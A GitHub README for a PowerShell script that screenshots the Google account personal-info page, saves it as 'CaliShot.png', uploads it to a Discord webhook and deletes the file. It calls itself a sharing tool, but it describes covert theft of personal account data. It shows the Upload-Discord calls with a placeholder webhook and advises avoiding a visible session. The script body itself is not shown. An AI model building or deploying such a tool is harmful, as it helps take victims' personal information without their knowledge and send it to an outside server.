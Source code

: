 # PowerShell Email Information Capture and Discord Upload

This PowerShell script allows you to capture information from a specified URL, take a screenshot of it, and upload it to a Discord channel using a webhook. The script is designed to help you easily share information from a specific webpage to your Discord server.

## Prerequisites

Before running the script, ensure you have the following:

1. PowerShell (v5.1 or higher) installed on your system.
2. A Discord account and the webhook URL of the channel where you want to upload the information. If you don't have a webhook URL, follow these steps to create one:
   - Go to your Discord server settings.
   - Navigate to "Integrations" > "Webhooks" and click on "Create Webhook."
   - Customize the webhook as needed and copy the webhook URL.

## Usage

1. **Get-EmailInfo Function:**

   This function captures a screenshot of a specified URL, in this case, "https://myaccount.google.com/personal-info?hl=en," but you can modify the URL as needed. The screenshot is saved temporarily as "CaliShot.png" in the system's temporary folder.

   ```powershell
   Get-EmailInfo
   ```

2. **Upload-Discord Function:**

   This function is used to upload either a screenshot file or text to the Discord channel using the webhook URL.

   - To upload a text message:

     ```powershell
     Upload-Discord -webhookUrl 'YOUR DISCORD WEBHOOK HERE' -text 'Your message here'
     ```

   - To upload a screenshot file:

     ```powershell
     $filePath = Get-EmailInfo
     Upload-Discord -webhookUrl 'YOUR DISCORD WEBHOOK HERE' -file $filePath | Out-Null
     Remove-Item -Path $filePath -Force
     ```

   Uncomment and use one of the options above as per your requirement.

## Important Notes

- The script uses the default browser to open the target URL. Ensure you have a compatible web browser installed on your system.

- The screenshot will be visible to the script's executing user, so avoid running the script in a visible session if sensitive information is being captured.

- **[Caution]** Be cautious with the use of this script, especially when handling sensitive data. Always ensure you have appropriate permissions to access and share the content.

## Disclaimer

This script is provided as-is and without warranty. Use it at your own risk. The authors are not responsible for any direct or indirect damages caused by the use of this script.

**Note:** Uncomment the last section of the script to capture the screenshot, upload it to Discord, and then delete the temporary file.

Feel free to contribute and improve this script by creating pull requests. If you encounter any issues or have suggestions for improvements, please [open an issue](https://github.com/yourusername/yourrepository/issues) on the GitHub repository.

Happy coding! 😊
